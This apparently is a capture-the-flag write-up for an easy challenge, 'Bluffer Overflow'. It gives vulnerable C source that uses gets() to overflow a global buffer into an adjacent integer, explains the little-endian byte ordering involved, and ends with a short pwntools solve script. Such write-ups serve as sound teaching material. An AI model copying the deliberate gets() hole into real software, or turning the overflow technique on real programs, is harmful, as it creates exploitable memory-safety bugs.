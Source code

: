 
# Bluffer Overflow 😏

## Overview & Description

Author : rennfurukawa

Points : Unknown

Difficulty : Easy

Maybe it's your first time pwning? Can you overwrite the variable?

[chall.c](https://drive.google.com/file/d/1VaDHn8tl1eZcxAo1wNxlBnqFRrLFI6Ot/view?usp=drive_link)

## Hints

- Modified the variable with `specific` value
- Maybe **pwntools** can help you 😉

## TL;DR

- Overwrite the local variable with the character that have the exact value
- To find the character, you need to change the decimal value to hexadecimal
- Because of endianness, you need to reverse the character

## Exploitation

We were given the source code in C

<details>
<summary>chall.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("Output : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
</details>

So, to get the flag, we need to change the **buff2** value to **5134160**

First, we need to find the buffer, try to send character one by one, until the program return the value

After some trial and error, we find that the after the 20th input, the program turns the value

![](https://i.imgur.com/DZvy3au.png)

As we can see, if we send a character, program will turn its value to decimal

Based on ASCII Value, 65 is decimal of "A" character

![](https://i.imgur.com/D4ucS5n.png)

But, if we add character more than 1, the program will turn the value like this

![](https://i.imgur.com/ZqmeFNr.png)

This will happen if you store a byte into computer memory, program will read it in a certain order. So your value is converted to hexadecimal then reversed because of endianness. After that program will return it to decimal value.

To find the character, we need to change the value that we need to hexadecimal, then reverse it to big-endian

We can use python to do that

![](https://i.imgur.com/RN7HmgI.png)

We can pass that value to server and check if we get the flag

![](https://i.imgur.com/Rc3lILq.png)

And yeah, we get the flag !
    
Anyway, you can use pwntools to solve it more easier 😉

## Solve Script
    
<details>
<summary>solve.py</summary>

```python
from pwn import *

p = process("./bluffer")
# p = remote("HOST", PORT) # modified after competition

offset = 20

payload = flat({
	offset : [
		5134160
	]
})


p.sendline(payload)

p.interactive()
```